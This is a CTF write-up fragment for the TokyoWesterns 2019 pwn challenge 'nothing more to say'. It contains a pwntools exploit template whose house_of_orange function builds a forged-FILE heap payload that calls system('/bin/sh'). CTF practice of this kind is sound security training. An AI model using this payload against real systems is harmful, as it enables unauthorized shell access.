 # TokyoWesterns CTF 5th 2019 Writeup

## Pwn


### nothing more to say

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2018 anciety <anciety@anciety-pc>
#
# Distributed under terms of the MIT license.
import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['ancyterm', '-s', '192.168.142.1', '-t', 'alacritty', '-e']

# synonyms for faster typing
tube.s = tube.send
tube.sl = tube.sendline
tube.sa = tube.sendafter
tube.sla = tube.sendlineafter
tube.r = tube.recv
tube.ru = tube.recvuntil
tube.rl = tube.recvline
tube.rr = tube.recvregex
tube.irt = tube.interactive

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


# by w1tcher who dominates pwnable challenges
def house_of_orange(head_addr, system_addr, io_list_all):
    payload = b'/bin/sh\x00'
    payload = payload + p64(0x61) + p64(0) + p64(io_list_all - 16)
    payload = payload + p64(0) + p64(1) + p64(0) * 9 + p64(system_addr) + p64(0) * 4
    payload = payload + p64(head_addr + 18 * 8) + p64(2) + p64(3) + p64(0) + \
            p64(0xffffffffffffffff) + p64(0) * 2 + p64(head_addr + 12 * 8)
    return payload


orig_attach = gdb.attach
def gdb_attach(*args, **kwargs):
    if DEBUG:
        orig_attach(*args, **kwargs)
gdb.attach = gdb_attach
```